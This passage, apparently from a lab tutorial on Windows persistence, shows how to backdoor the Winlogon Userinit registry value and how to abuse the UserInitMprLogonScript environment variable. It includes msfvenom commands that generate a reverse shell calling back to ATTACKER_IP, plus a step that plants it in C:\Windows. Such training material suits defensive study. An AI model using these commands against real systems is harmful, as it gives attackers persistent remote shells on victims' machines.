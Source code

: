If we'd replace any of the executables with some reverse shell, we  would break the logon sequence, which isn't desired. Interestingly, you  can append commands separated by a comma, and Winlogon will process them all.

Let's start by creating a shell:

- **AttackBox**        

```shell-session
user@AttackBox$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=4452 -f exe -o revshell.exe
        
```

We'll transfer the shell to our victim machine as we did previously.  We can then copy the shell to any directory we like. In this case, we  will use `C:\Windows`:

- **Command Prompt**        

```shell-session
C:\> move revshell.exe C:\Windows
        
```

We then alter either `shell` or `Userinit` in `HKLM\Software\Microsoft\Windows NT\CurrentVersion\Winlogon\`. In this case we will use `Userinit`, but the procedure with `shell` is the same.

![Backdoored userinit](./assets/dc5fa3e75ff056f11e16c03373799f45.png)

### Logon scripts

One of the things `userinit.exe` does while loading your user profile is to check for an environment variable called `UserInitMprLogonScript`. We can use this environment variable to assign a logon script to a user that will get run when logging into the machine. The variable isn't set by default, so we can just create it and assign any script we like.

Notice that each user has its own environment variables; therefore, you will need to backdoor each separately.

Let's first create a reverse shell to use for this technique:

- **AttackBox**        

```shell-session
user@AttackBox$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=4453 -f exe -o revshell.exe
        
```
